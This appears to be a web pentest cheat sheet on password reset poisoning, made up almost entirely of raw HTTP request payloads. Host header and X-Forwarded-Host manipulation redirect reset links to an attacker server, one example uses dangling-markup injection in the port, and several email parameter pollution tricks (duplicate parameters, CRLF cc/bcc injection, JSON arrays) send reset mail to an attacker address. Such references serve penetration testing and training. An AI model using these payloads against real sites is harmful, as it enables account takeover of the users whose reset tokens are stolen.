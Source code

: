 ```yaml
---
title: "Password Reset Poisoning"
draft: false
images: []
menu:
  docs:
    parent: "Web Pentest"
weight: 100
toc: true
---
```


## Host Header
Modify the host header /forgot-password request to send the request to your own server exploit
```
POST /forgot-password HTTP/1.1
Host: ac2e1f241ee191188094086d00cc0041.web-security-academy.net

#########################################################################

POST /forgot-password HTTP/1.1
Host: exploitserver.com

#########################################################################

POST /forgot-password HTTP/1.1
Host: ac2e1f241ee191188094086d00cc0041.web-security-academy.net
Host: exploitserver.com
```
## X-Forwarded-Host
Notice that the X-Forwarded-Host header is supported and you can use it to point the dynamically generated reset link to an arbitrary domain
```
POST /forgot-password HTTP/1.1
Host: ac1c1fcd1e67ea3480850d2c00150093.web-security-academy.net

##########################################################################

POST /forgot-password HTTP/1.1
Host: ac1c1fcd1e67ea3480850d2c00150093.web-security-academy.net
X-Forwarded-Host: exploitserver.com
```
### Add Non Numeric Port
```
POST /forgot-password HTTP/1.1
Host: acb31fb21f24d280806c1817008f0032.web-security-academy.net

###########################################################################

POST /forgot-password HTTP/1.1
Host: acb31fb21f24d280806c1817008f0032.web-security-academy.net:'<a href="https://exploitserver.net/?
```
## Manipulate Email Parameter
### Add attacker email as second parameter using &
```
POST /resetPassword
[...]
email=victim@email.com&email=attacker@email.com
```
### Add attacker email as second parameter using %20
```
POST /resetPassword
[...]
email=victim@email.com%20email=attacker@email.com
```
### Add attacker email as second parameter using |
```
POST /resetPassword
[...]
email=victim@email.com|email=attacker@email.com
```
### Add attacker email as second parameter using cc
```
POST /resetPassword
[...]
email="victim@mail.tld%0a%0dcc:attacker@mail.tld"
```
### Add attacker email as second parameter using bcc
```
POST /resetPassword
[...]
email="victim@mail.tld%0a%0dbcc:attacker@mail.tld"
```
### Add attacker email as second parameter using ,
```
POST /resetPassword
[...]
email="victim@mail.tld",email="attacker@mail.tld"
```
### Add attacker email as second parameter in json array
```
POST /resetPassword
[...]
{"email":["victim@mail.tld","atracker@mail.tld"]}
```
